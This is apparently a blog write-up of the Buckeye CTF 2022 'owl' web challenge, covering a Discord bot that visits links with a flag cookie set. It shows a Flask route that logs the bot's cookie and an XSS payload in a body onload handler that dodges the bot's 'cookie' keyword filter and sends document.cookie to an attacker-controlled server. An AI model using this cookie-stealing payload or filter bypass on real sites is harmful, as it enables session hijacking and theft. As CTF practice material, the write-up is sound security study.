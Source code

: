 ```yaml
---
title: Buckeye CTF 2022 - owl - Writeup 
date: 2022-11-11 -500
categories: [ctf]
tags: [buckeye2022, writeup, web]
---
```


![challenge-description](/assets/owl/owl-1.png)

## How it works

Alright, so *owl#9960* is a Discord bot and in the challenege description we have a [source code](https://github.com/cscosu/buckeyectf-2022-public/blob/master/web/owl/index.js) for it. Let's quickly walk trough how it works and how we can get the flag.

In order to trigger any response from *owl*, you have to slide into its Discord DMs and send a message:

```javascript
client.on("message", msg => {
	if(!(msg.channel instanceof discord.DMChannel))
		return;
```

The owl expects the message to be a website link which is validated with the following regex rule:

```javascript
let url = /https?:\/\/(www\.)?([-a-zA-Z0-9@:%._\+~#=]{1,256}\.[a-zA-Z0-9()]{1,6}\b)([-a-zA-Z0-9()@:%_\+.~#?&//=]*)/i
```

If the message contains a valid URL, it will call the ```scout()``` function, otherwise the bot will respond with:
```
✨🦉 hoot hoot 🦉✨"
```

The first thing ```scout()``` function checks is if the URL provided in the message contains ```/owl```.

```javascript
if(!url.includes("owl")) {
			resolve("hoot... hoot hoot?");
			return;
		}
```

If it does, then then the javascript browser sets a cookie with ***the flag***:

```javascript
browser.setCookie({
			name: "flag",
			domain: host,
			value: process.env.FLAG
		});
```
This will be our ***target*** - we will somehow have to make the browser gives us the flag cookie.

Before *owl* bot visits the website, it scraps the website HTML content and passes it to ```fly()``` function. Here, the website content udergoes a *safe* check:

```javascript
let bad = /<script[\s\S]*?>[\s\S]*?<\/script>/gi;

	return new Promise((resolve, reject) => {
		if(content.match(bad)) {
			resolve("hoot hoot!! >:V hoot hoot hoot hoot");
			return;
		}
	
		if(content.includes("cookie")) {
			resolve("hoooot hoot hoot hoot hoot hoot");
			return;
		}
```

First, it checks if there are any strings that match the pattern of ```<script> </script>``` and then it checks if the word ```cookie``` is included anywhere in the HTML content.

If both checks fail, then the website is ***absolutely*** safe and the bot proceeds to visit it (like a normal user would):

```javascript
browser.visit(url, () => {
			let html = browser.html();
			if(html.toLowerCase().includes("owl")) {
				resolve("✨🦉 hoot hoot 🦉✨");
			} else {
				resolve("");
			}
		});
```

We get a bonus ```✨🦉 hoot hoot 🦉✨``` if the website content contains ```owl``` keyword. And that's it. Now how can we exploit it?


## Solution #1

Okay, so since we know that `owl` browser sets the flag as a cookie, we can just read the cookies that were sent with request to our server. The steps would be to:
* setup a public server
* send a link to our server that contains `owl` in URL
* receive request that `owl` browser made to your the and just check the cookies it came with 

Now, since I happened to have a public facing server, I setup a very simple Flask server with `/owl` route and just made Flask print the cookies in a request.

```python
from flask import Flask, render_template, make_response, request

app = Flask(__name__)

@app.route('/owl')
def index():
    print(request.cookies.get('flag'))
    return render_templat('index.html')
```

![challenge-description](/assets/owl/owl-2.png)

And there it is, we got the flag!. Now, you can totally do this with other tools, like ```RequestBin```. And if you can't create an `/owl` route, just add `owl` as a request parameter, like this: ```<URL:PORT/?owl>```, and it will work just fine.

## Solution #2

Now, suppose there is no way to read request cookies. 

Then, the second solution is a to create a website with [XSS](https://portswigger.net/web-security/cross-site-scripting) payload on it that will execute javascript code and sent browser cookie as a request parameter. This, however, can be a little tricky since ```owl``` checks for use of ```<script>``` tags (which are commonly used for XSS) and the word ```cookie```.

An interesting thing I learnt during this challenge is that apparently [*zombie.js* browser](http://zombie.js.org/) does not properly render ```<img>``` tags. So I spent way too much time trying to trigger XSS with ```<img onerror=>``` without ever successfully getting the XSS. Ultimately, a more reliable way to get it was with ```<body onload=>``` tags - ```onload``` property, just like `onerror`, can execute javascript code.

The other thing we have to bypass is the word `cookie`. We can decimal enocode it, like this:

```
 &#0000100&#0000111&#0000099&#0000117&#0000109&#0000101&#0000110&#0000116&#0000046&#0000099&#0000111&#0000111&#0000107&#0000105&#0000101&#0000059
```

 which decodes to ```document.cookie```. However, for some reason I could not get it work. I tested it on myself with XSS payload many times and it worked just fine though - again, I think it might have had something to do with *zombie.js* browser HTML rendering.
  
 A cool trick I cannot take credit for is to use javasript ```toLowerCase()``` function:

 ```javascript
 var c00kie = document['COOKIE'.toLowerCase()]
 ```

 The bot only checks for exact match on `cookie`, so making it upper case will not ring any alarms. In order to make an HTTP request, we can use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/Using_XMLHttpRequest). 

 So finally, we can spin up a public server and put our payload in ```index.html``` file: 


 ```html
 
 <!DOCTYPE html>
<html>

<body onload="var c00kie = document['COOKIE'.toLowerCase()]; var xhr = new XMLHttpRequest(); xhr.open('GET', '<URL:PORT>/?c00kie=' + c00kie, true); xhr.send();">
 <p> definitely not XSS </p>   

</body>
</html>
 ```

 And sure enough, if we look at the server logs, we get a URL encoded flag  (don't mind a test flag I setup earlier):

 ![challenge-description](/assets/owl/owl-5.png)

 Needless to say, if we were to exploit an XSS vulnerability in the wild, then we could not have a peak into vulnerable server logs like I just did - we would check the logs at ```<URL:PORT>``` server instead for the cookie. We can see though that a request is properly made so everything works fine.

Obviously, it's way more effort than the first solution given that you can just print out request cookies, but at least it gives you some cool XSS practice!
